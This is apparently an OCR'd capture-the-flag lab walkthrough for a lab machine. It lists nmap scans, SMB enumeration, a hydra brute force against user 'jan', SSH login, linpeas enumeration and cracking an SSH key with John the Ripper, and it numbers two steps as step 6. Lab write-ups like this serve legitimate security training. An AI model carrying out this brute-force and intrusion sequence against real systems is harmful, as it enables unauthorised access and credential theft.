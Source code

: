 
# ROUTE 2
STEP1   
- RUN NMAP(FOR PORTS)

STEP2  
- RUN NMAP(FOR DIRECTORIES)  
	sudo nmap -p80 --script=http-enum 10.10.228.161

STEP3
- PRESENCE OF SMB SUGGESTS WE RUN ENUM4LINUX  
	enum4linux 10.10.117.18  

STEP4  
- RUN smbclient   
	smbclient //10.10.117.18/Anonymous

STEP 5  
- BRUTEFORCE USING HYDRA  
	hydra -l jan -P /usr/share/wordlists/rockyou.txt  

STEP 6   
- SSH INTO JAN   
	ssh jan@<ip>  
	password = ...

STEP 7  
- ENUMERATE THE USER JAN DIRECTORIES SEARCHING FOR SOMETHING   
  RUN LINPEAS OR LINENUM

STEP 6  
- DOWNLOAD THE KEY INTO YOUR MACHINE  
- DECRYPT THE SSH KEY USING JOHN THE RIPPER  

# THAT'S THE END HOPE YOU LEARNED A NEW TRICK.

